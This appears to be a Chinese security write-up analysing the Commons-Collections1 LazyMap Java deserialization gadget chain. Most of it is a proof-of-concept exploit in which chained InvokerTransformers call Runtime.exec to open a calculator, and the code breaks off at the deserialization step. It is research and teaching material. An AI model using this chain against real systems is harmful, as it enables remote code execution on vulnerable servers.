 ## Commons-Collections1-LazyMap 分析
核心点在`LazyMap#get`，`LazyMap`在没有`key`时会尝试调用`this.factory.transform`方法，而`this.factory`可以指定为`Transformer`对象，而且`transform`方法参数会被忽略掉，因此只需要寻找一个调用了`LazyMap.get`的方法。

![undefined](https://p1.ssl.qhimg.com/t01bb1035e66058a34f.png "undefined")

这里`AnnotationInvocationHandler`类的`invoke()`方法可以触发`this.memberValues`来调用`get`方法，从而触发`LazyMap#get`。

![undefined](https://p4.ssl.qhimg.com/t01a4f81de82e38d2c2.png "undefined")

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsLazyMap {

    public static void main(String[] ars) throws ClassNotFoundException ,InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map LazyMap = org.apache.commons.collections.map.LazyMap.decorate(new HashMap(), chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, LazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(org.apache.commons.collections.map.LazyMap.class.getClassLoader(), org.apache.commons.collections.map.LazyMap.class.getInterfaces(), invocationHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, mapProxy);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // 反序列化
```